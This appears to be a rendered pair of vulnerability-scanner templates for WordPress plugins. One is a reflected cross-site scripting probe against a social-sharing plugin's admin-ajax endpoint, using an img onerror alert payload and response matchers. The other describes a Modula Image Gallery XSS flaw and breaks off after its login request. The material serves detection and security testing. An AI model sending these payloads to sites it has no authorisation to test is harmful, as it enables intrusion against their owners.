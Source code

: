 - {{BaseURL}}/wp-admin/admin-ajax.php?action=heateor_sss_sharing_count&urls[%3Cimg%20src%3dx%20onerror%3dalert(document.domain)%3E]=

### Matchers

**Type - word**

- part - body
- words
  1. [{"\<img src=x onerror=alert(document.domain)>":""}]
  2. facebook
  3. twitter
- condition - and

**Type - word**

- part - header
- words
  1. application/json
- negative - True

**Type - status**

- status
  1. 200

---

# WordPress Modula Image Gallery \<2.6.7 - Cross-Site Scripting

## Description

- WordPress Modula Image Gallery 2.6.7 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - authenticated,wpscan,wp-plugin,xss,wp,wordpress

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

